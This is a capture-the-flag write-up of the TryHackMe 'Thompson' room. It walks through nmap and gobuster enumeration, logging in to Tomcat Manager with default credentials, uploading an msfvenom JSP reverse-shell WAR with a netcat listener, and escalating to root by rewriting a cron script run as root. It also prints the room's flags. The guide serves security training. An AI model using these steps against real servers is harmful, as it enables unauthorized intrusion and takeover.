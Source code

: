 ## Thompson - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtthompson)

**IP: 10.10.37.157**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, msfvenom

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan.
  ```
  nmap -sC -sV -T5 -p- 10.10.37.157 
  22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
  8080/tcp open  http    Apache Tomcat 8.5.5
  ```
  
- Visited `http://10.10.37.157:8080` and it's Apache Tomcat page, put it in Gobuster.
  ```
  gobuster dir -u http://10.10.37.157:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ->
  /docs                 (Status: 302) [Size: 0] [--> /docs/]
  /examples             (Status: 302) [Size: 0] [--> /examples/]
  /manager              (Status: 302) [Size: 0] [--> /manager/]
  ```
  
- Then, I visited `http://10.10.37.157:8080/manager` and got this error:
  ```
  You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

  For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.
  
  <role rolename="manager-gui"/>
  <user username="tomcat" password="s3cret" roles="manager-gui"/>
  ```

- Awesome, I have credentials now, let's log in to manager GUI with them. After going through manager GUI, I found an option to upload `.war` files. Awesome, upload a shell!

---

## ⚙️ Shell Access

- Created a shell with `msfvenom`, started a listener and then visited the page `http://10.10.37.157:8080/shell/` in order to get interractive shell. I used Java shell here but you can use any shell.
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR-THM-IP] LPORT=4444 -f war -o shell.war
  nc -lvnp 4444

  upload the shell through manager GUI and visit the page
  ```
  
- Perfect, I got a shell, let's convert it to `putty`
  ```
  python -c "import pty; pty.spawn('/bin/bash')"
  ```
  
- I also experimented with GhostCat exploit but it was unsuccessfull, app is vulnerable to LFI but couldn't make it work tho...

---

## 🧍 User Privilege Escalation

- Now, since I got a shell, finding user flag is not a problem
  ```
  find / -name user.txt
  /home/jack/user.txt
  
  cat /home/jack/user.txt
  39400c90bc683a41a8935e4719f181bf
  ```
  
- Perfect, moving to escalation.

---

## 👑 Root Privilege Escalation

- After enumerating, I decided to go with `cronjobs` since it was my best option. Due to configuration, `cronjobs` prints content of `test.txt` every minute
  ```
  cat /etc/crontab
  cd /home/jack && bash id.sh
  
  cd /home/jack
  cat test.txt
  uid=0(root) gid=0(root) groups=0(root)
  
  cat id.sh 
  #!/bin/bash
  id > test.txt
  ```
  
- OK, now change `id.sh` to print `root.txt` instead of ID.
  ```
  echo '#!/bin/bash' > id.sh
  echo 'cat /root/root.txt > test.txt' >> id.sh 
  ```
  
- It worked, you still have to wait a bit for `cronjobs` to resolve before getting the flag.
  ```
  cat test.txt
  d89d5391984c0450a95497153ae7ca3a
  ```

---

## 🏁 Flags

- **User Flag**: `39400c90bc683a41a8935e4719f181bf`
- **Root Flag**: `d89d5391984c0450a95497153ae7ca3a`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Exploiting with GhostCat which I didn't use to get the flags...`

- What did I learn?
  `Persistence is the key!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
